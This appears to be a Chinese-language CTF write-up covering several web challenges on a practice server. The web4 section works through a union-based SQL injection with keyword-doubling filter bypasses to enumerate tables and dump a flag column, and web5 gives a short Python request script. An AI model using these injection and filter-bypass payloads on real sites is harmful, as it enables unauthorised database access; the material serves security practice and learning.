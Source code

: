 [toc]
web6  web8  web22 好像被改了
web23 web16 还没整理
# web1 `变量覆盖`
http://123.206.31.85:10001/?a=&c=


# 流量分析 `telnet`
Telnet是明文传输的
过滤telnet
右键追踪tcp流得到flag


# web2 `md5爆破 robots.txt`


# web3 `响应头`

# web4 `easy sql注入`
```
http://123.206.31.85:10018/list.php?id=1 ok
http://123.206.31.85:10018/list.php?id=1' no
http://123.206.31.85:10018/list.php?id=1'--+  ok
--+注释可以
http://123.206.31.85:10018/list.php?id=1' order by 1--+   no
http://123.206.31.85:10018/list.php?id=1' oorrder by 1--+  ok
http://123.206.31.85:10018/list.php?id=1' oorrder by 2--+  ok
http://123.206.31.85:10018/list.php?id=1' oorrder by 3--+  ok
http://123.206.31.85:10018/list.php?id=1' oorrder by 4--+  no
3列 并且or被过滤 需双写
http://123.206.31.85:10018/list.php?id=-1' union select 1,2,3--+  no
http://123.206.31.85:10018/list.php?id=-1' uniunionon seselectlect 1,2,3--+   返回2 3
union 和 select 被过滤 需双写绕过 2 3位回显
http://123.206.31.85:10018/list.php?id=-1' uniunionon seselectlect 1,group_concat(table_name),3 from infoorrmation_schema.tables where table_schema=database()--+  返回  ctf,flag  3 
这里information中的or需双写
http://123.206.31.85:10018/list.php?id=-1' uniunionon seselectlect 1,group_concat(column_name),3 from infoorrmation_schema.columns where table_name='flag'--+  id,flag  3
http://123.206.31.85:10018/list.php?id=-1' uniunionon seselectlect 1,flag,3 from flag--+
```
# web5 `python写个脚本`
```python
import requests
import re
url = 'http://123.206.31.85:10020/?key='
s = requests.Session()
aa = s.get(url).content
print aa
aa = re.search(r'\w+',aa).group()
print aa
print s.get(url+aa).content
```
比较迷的一题
拼网速 有几率得到flag
